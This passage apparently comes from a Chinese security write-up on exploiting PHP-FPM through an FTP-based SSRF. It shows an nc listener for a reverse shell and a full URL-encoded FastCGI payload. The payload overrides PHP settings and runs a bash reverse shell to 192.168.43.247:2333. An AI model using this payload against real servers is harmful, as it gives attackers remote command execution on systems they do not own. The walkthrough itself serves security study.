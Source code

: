 ```bash
```

并在 vps 上开启一个 nc 监听，用于接收反弹的 shell：

[![](assets/1698897074-e8e1bd5d5f1d557ff32d62c275a018a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134746-93e65a0a-b2e5-1.png)

最后构造 url 发送 payload 即可：

```bash
/?file=ftp://aaa@192.168.43.247:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

[![](assets/1698897074-2ab4d0cd0de2df4dde617739c6e473d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134746-9433ab84-b2e5-1.png)
